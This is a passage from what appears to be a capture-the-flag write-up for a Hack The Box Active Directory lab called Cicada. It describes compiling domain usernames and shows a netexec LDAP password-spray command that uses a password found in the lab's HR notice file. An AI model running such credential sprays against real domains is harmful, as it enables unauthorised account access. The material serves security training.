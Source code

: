 ![image.png](/assets/images/Cicada_HTB/image%2011.png)

Adding them in the domainusernames.txt file.

These are all the users I filtered out from the above data.

![image.png](/assets/images/Cicada_HTB/image%2012.png)

Now we do the password spray attack on these users with the password found in the **Notice from HR.txt** file.

```bash
nxc ldap cicada.htb -u domainusernames.txt -p 'Cicada$M6Corpb*@Lp#nZp!8' --continue-on-success
```
